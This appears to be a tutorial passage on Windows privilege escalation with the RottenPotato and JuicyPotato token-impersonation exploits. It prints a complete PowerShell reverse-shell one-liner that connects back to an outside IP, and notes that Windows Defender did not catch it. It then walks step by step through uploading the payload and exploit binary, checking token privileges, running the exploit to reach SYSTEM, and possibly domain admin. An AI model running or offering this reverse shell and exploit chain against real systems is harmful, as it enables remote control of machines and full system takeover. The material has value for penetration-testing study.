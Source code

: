 I did this on Windows 10 with Defender and nothing triggered. You could probably implement a better obfuscated reverse shell if you like.

Make a powershell reverse shell and put it in a file test.bat.

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.9',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
Upload it to the target machine on c:\windows\temp\test.bat. The directory doesn't really matter, this is just an example.

Upload MSFRottenPotato.exe to your target machine. Now depending on what token privs you have you can use this exploit. So enumerate your token privs with:

whoami /priv

If you only have SeImpersonatePrivilege you can use the CreateProcesAsUser, (t) argument. If you have both SeImpersonatePrivilege and SeAssignPrimaryToken you can use CreateProcessWithTokenW, (*) argument.

Set up your listener in empire, metasploit, netcat or whatever you prefer.

Execute it with

c:\windows\temp\MSFRottenPotato.exe t c:\windows\temp\test.bat


**Juicy Potato**

Juicy potato is basically a weaponized version of the RottenPotato exploit that exploits the way Microsoft handles tokens. Through this, we achieve privilege escalation. 

How does it work?
I will admit I am not an expert in Windows internals, but I have tried to understand how this exploit works. A CLSID is a globally unique identifier that identifies a COM class object. The exploit allows us to escalate from service accounts in session 0 to SYSTEM. More to come once I understand it all!

How to use
As we can see, we are on Windows 10 Enterprise 1709, but the OS shouldn't matter. We need to have a shell as a service account. For demo purposes I usednt authority\local service 

The only real requirement however, is that the account has the SeAssignPrimaryTokenPrivilege and/or SeImpersonatePrivilege which most service accounts do have.

To try this yourself, you can open a shell as the service account using psexec from Microsoft Sysinternals as displayed in the screenshot below. 

PsExec64.exe -i -u "nt authority\local service" cmd.exe

We then pick a CLSID from here. Interesting note: Numerous CLSIDs belong to LOGGED-IN-USER, so if you select this use this and a domain admin is logged in you can basically escalate directly to DA. However, it will only get the user of the first session (1). Finding a way to predict which user that is will require further testing. Either way, SYSTEM level privileges will get you where you want.

Now we run the exploit by specifiying a COM port of 1337, and executing the process cmd.exe trying both techniques CreateProcessWithTokenW,  CreateProcessAsUser A shell pops as nt authority\system
